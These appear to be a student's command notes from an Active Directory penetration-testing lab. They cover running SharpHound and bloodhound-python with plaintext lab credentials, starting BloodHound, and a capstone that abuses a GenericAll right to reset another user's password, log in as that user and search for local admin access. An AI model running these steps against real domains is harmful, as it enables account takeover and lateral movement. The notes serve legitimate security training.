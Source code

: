 #### Checking the "start-email.txt" file
```PowerShell
cat \\FILES04\docshare\docs\do-not-share\start-email.txt
```
### 21.4.1. Collecting Data with SharpHound
#### Importing the SharpHound script to memory
```PowerShell
Import-Module .\Sharphound.ps1
```
#### Checking the SharpHound options
```PowerShell
Get-Help Invoke-BloodHound
```
#### Running SharpHound to collect domain data
```PowerShell
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```
#### Collecting Bloodhound data from Kali
```Shell
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns $ip -d hutch.offsec -c all
```
### 21.4.2. Analysing Data using BloodHound
#### Starting the Neo4j service in Kali Linux
```Shell
sudo neo4j start
```
#### Starting BloodHound in Kali Linux
```Shell
bloodhound
```

### For Capstone:
#### Identified that stephanie had full control (GenericAll) of robert
```PowerShell

```
#### Modified robert's password
```PowerShell
$SecPassword = ConvertTo-SecureString 'LegmanTeamBenzoin!!' -AsPlainText -Force
```

```PowerShell
$Cred = New-Object System.Management.Automation.PSCredential('corp.com\stephanie', $SecPassword)
```

```PowerShell
$robertPassword = ConvertTo-SecureString 'Pwn_star45' -AsPlainText -Force
```

```PowerShell
Set-DomainUserPassword -Identity robert -AccountPassword $robertPassword -Credential $Cred -Verbose
```
#### Logged in as robert
```PowerShell
runas /user:corp.com\robert cmd
```
#### Looked for where robert might have local admin access
```PowerShell
Find-LocalAdminAccess
```
